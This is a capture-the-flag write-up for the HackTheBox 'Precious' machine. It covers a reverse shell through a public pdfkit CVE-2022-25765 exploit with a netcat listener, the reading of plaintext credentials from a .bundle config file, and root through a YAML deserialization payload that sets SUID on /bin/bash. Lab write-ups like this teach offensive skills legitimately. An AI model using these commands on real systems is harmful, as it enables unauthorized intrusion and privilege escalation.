

HTB | Precious Writeup | Easy
So you're probably here because you're stuck at the Precious machine on HTB.
In this writeup I will try to detail as much as possible in order to help you out.
Let's begin!
First scan
First, we're going to do a simple nmap scan to see what we're dealing with.
Using nmap -A 10.10.11.189 we can see that there are only 2 ports open !
First you will need to add precious.htb to your hosts file.
So in order to do that you will need to type in your terminal sudo nano /etc/hosts
and then add it as it is shown on the picture below.

Diving in - [USER]
First thing I checked after scan is to see if Phusion Passanger or Nginx were vulnerable since they were outdated.
After some research I couldn't find anything interesting so I moved on.
When we access the html page (http://precious.htb/) we can see a simple website that converts html web pages to pdf.
typing in an url like google we get an error that says it cannot load remote URL's.
So instead, I wrote http://127.0.0.1/\n ** NOTE ** somehow this only works in chromium based browsers (only tried burp suite chromium one) firefox MIGHT not work.
After writting the local ip url, we get a pdf file.
We can then examine the pdf's metadata using thepdfinfo tool and we get this 
Investigating this pdfkit we see that it is has an CVE, it is CVE-2022-25765.
To facilitate things, I found a written python exploit on github so I won't go into details about the CVE.
Here is the POC. We first set a netcat listener on port 1234 using the command nc -lvnp 1234 then we can run the exploit by typing this below:
python poc.py -u http://precious.htb/ -r [your tun0 IP] 1234
And we got a shell!
We can see that we are the user ruby and we do not have the permission to read the user flag in henry's home directory
So after snooping a bit, I found out that the .bundle had henry's credentials in it.
So we navigate to our home by typing cd ~ then we navigate to .bundle. In this .bundle directory, the config file contains credentials.
So we display those credentials using the cat config command.
So now we should be able to ssh into henry's machine.
We do that by typing ssh henry@10.10.11.189 using the password we found.
We can the navigate to henry's home directory and read out the user flag!
Challenging END | ROOT
It's now time to acquire root, so let's get started
First we're gonna see if henry is allowed to run any commands under root.
We check that by typing sudo -l.
Looks like there is a script written in ruby that can be ran as root. Let's investigate further!
We can see that this program updates some dependencies located in the dependencies.yml file.
It uses YAML. So after doing some research, I found that YAML is vulnerable to deserialisation attacks so let's try one.
Let's navigate to /dev/shm and create a new file called dependencies.yml.
In this file you will want to paste this deserialization payload found on github:
Then you will want to edit the git_set : id to git_set : chmod u+s /bin/bash
That way, when running the program as root, it will elevate our bin/bash privilage to root (i think).
Save the file and run the command once again ( sudo /usr/bin/ruby /opt/update_dependencies.rb )
after running type bash -p
Now if you type whoami you will see that we are root.
You can now read the flag and finish this machine.
Hope you learned something and I wish you a great day/night.
click here to return home.